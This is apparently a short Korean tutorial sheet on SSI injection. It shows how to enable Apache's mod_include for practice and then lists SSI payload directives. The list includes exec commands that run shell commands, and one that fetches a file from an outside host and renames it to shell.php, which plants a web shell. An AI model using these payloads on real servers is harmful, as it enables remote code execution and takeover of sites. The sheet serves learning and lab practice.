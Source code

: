 ### SSI Injection?

Server-Side Includes (SSI) Injection 로 과거 서버 환경 정보 활용에 사용했던 기능이다.

현재는 더 좋은 명령어 들이 존재하기 때문에 거의 사용되지 않는다.

따라서 기본 설정은 대부분 비활성화 되어 있고, 일부러 활성화 시키지 않는 이상 실습 조차 어렵다.

### httpd.conf 를 LoadModule 로 사용하는 설정의 경우

LoadModule include_module modules/mod_include.so

의 #을 확인한다.(주석처리(#)가 있다면 제거)

### apache2의 mods-available 폴더를 사용하는 환경인 경우

ln -s /etc/apache2/mods-available/include.load /etc/apache2/mods-enabled

### httpd.conf 또는 /etc/apache2/sites-available/000-default 파일 편집

<code><pre>

＜Directory />
    Options FollowSymLinks Includes
    AllowOverride All
    Order allow,deny
    Allow from all
    AddType text/html .shtml
    AddOutputFilter INCLUDES .shtml
＜/Directory>

</pre></code>

### 사용 가능 구문

<pre><code>

＜!--#exec cmd="ls" -->
＜!--#exec cmd="cd /root/dir/">
＜!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->
＜!--#exec cmd="dir" -->
＜!--#exec cmd="cd C:\admin\dir">
＜!--#config errmsg="File not found, informs users and password"-->
＜!--#echo var="DOCUMENT_NAME" -->
＜!--#echo var="DOCUMENT_URI" -->
＜!--#config timefmt="A %B %d %Y %r"-->
＜!--#fsize file="ssi.shtml" -->
＜!--#include file=”UUUUUUUU...UU”-->

</code></pre>
